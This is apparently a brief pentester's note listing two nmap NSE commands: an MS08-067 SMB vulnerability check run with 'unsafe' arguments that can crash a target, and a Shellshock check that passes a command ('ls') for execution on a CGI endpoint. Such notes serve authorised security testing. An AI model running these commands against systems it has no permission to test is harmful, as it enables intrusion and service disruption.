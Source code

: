 # useful nse scripts

smb-vuln-ms08-067

~~~
nmap --script-args=unsafe=1 --script smb-vuln-ms08-067.nse -p 445 <host>
~~~

(seems to work 90% of the time)


http-shellshock

~~~
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
~~~

broken by default, fix here: https://www.youtube.com/watch?v=IBlTdguhgfY&t=670s


